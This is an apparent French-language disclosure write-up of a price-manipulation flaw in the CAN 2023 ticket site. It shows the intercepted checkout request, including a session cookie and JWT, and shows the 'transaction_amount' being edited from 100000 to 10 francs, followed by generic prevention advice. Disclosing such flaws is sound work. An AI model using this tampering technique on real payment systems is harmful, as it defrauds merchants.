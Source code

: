 # CAN 2023 : La faille qui permettait d'acheter un billet de match à n'importe quel prix


# 🧟 La faille qui permettait d'acheter un billet de match à n'importe quel prix

## Introduction
Dans cet article, nous allons examiner une vulnérabilité découverte sur le site de vente de billets pour la Coupe d'Afrique des Nations de 2023 https://can2023-tickets.com/. 

Cette faille permet à une personne mal intentionnée d'acheter des billets à un prix inférieur à leur valeur réelle. Nous allons démontrer comment exploiter cette vulnérabilité et, en conclusion, donner des recommandations pour prévenir de telles failles à l'avenir.

## Détails de l'exploitation
L’exploitation est relativement très simple. 
D'abord on choisi le ticket qu'on veut acheter avec tous les détails à savoir la catégorie, la zone et le siège. 
Comment on peut le voir avec la capture ci-dessous, on a tous les éléments nécessaires et le prix du billet.

![Alt text](/images/3.png)

Ici on intercepte la requête qui permet de valider le panier pour effectuer le paiement avec Burpsuite.

![Alt text](/images/4.png)


Contenu de la requête :

```
POST /order HTTP/1.1
Host: [redacted.com]
Cookie: _session_id=8ababf97261c1f2d274494a5339a5965
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 332
Origin: https://can2023-tickets.com
Referer: https://can2023-tickets.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Te: trailers
Connection: close

operation_token=oDJRLnbY-MHCr-AeQo-FOWf-ves5BdwUW3Rg&order=KK3818AXB&jwt=eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJDQUYiLCJvcmRlciI6IktLMzgxOEFYQiIsImV4cCI6MTcwNTc0MzYxNiwiaXNzIjoiR2F0ZXdheSBQYXlNb25leSIsImlhdCI6MTcwNTY1NzIxNiwiYXVkIjoiRS1jb21tZXJjZSJ9.5USzKvP7bc6KKnW7IT92bLdcZnWIQ5pWWU3OVpeuiQw&currency=xof&transaction_amount=100000&payer=

```
Ici nous avons les données qui sont envoyés à l'API de paiement.
Nous avons le Token de l'opération, la monnaie utilisée et le prix du billet.
Nous avons remarqué que c'est le paramètre "transaction_amount" qui envoi le prix du billet à l'API de paiement.

```
operation_token=oDJRLnbY-MHCr-AeQo-FOWf-ves5BdwUW3Rg&order=KK3818AXB
&jwt=eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJDQUYiLCJvcmRlciI6IktLMzgxOEFYQiIsImV4cCI6MTcwNTc0MzYxNiwiaXNzIjoiR2F0ZXdheSBQYXlNb25leSIsImlhdCI6MTcwNTY1NzIxNiwiYXVkIjoiRS1jb21tZXJjZSJ9.5USzKvP7bc6KKnW7IT92bLdcZnWIQ5pWWU3OVpeuiQw
&currency=xof
&transaction_amount=100000
&payer=

```

On peut mettre le prix qu'on veut sur ce paramètre pour modifier le prix du billet. 

Dans notre exemple, nous allons essayé avec 10 Francs.


```
operation_token=oDJRLnbY-MHCr-AeQo-FOWf-ves5BdwUW3Rg&order=KK3818AXB
&jwt=eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJDQUYiLCJvcmRlciI6IktLMzgxOEFYQiIsImV4cCI6MTcwNTc0MzYxNiwiaXNzIjoiR2F0ZXdheSBQYXlNb25leSIsImlhdCI6MTcwNTY1NzIxNiwiYXVkIjoiRS1jb21tZXJjZSJ9.5USzKvP7bc6KKnW7IT92bLdcZnWIQ5pWWU3OVpeuiQw
&currency=xof
&transaction_amount=10
&payer=

```

Et nous remarquons que le changement de prix a été effectué sans problème.

![Alt text](/images/6.png)


Après paiement, les billets seront envoyés par mail.


## Recommandations


* Mettre en place des tests de pénétration réguliers : Effectuez des tests de pénétration réguliers pour identifier et corriger les vulnérabilités avant qu'elles ne soient exploitées.

* Utiliser une validation d'entrée robuste : Assurez-vous que le site Web utilise une validation d'entrée robuste pour empêcher les utilisateurs d'injecter du code malveillant.


* Mettre à jour les composants tiers : Maintenez les composants tiers utilisés sur le site Web à jour pour éviter les vulnérabilités connues.


* Mettre en place une authentification et une autorisation solides : Implémentez un système d'authentification et d'autorisation robuste pour empêcher les accès non autorisés.


* Former les développeurs : Formez les développeurs aux meilleures pratiques en matière de sécurité pour éviter les vulnérabilités courantes. 
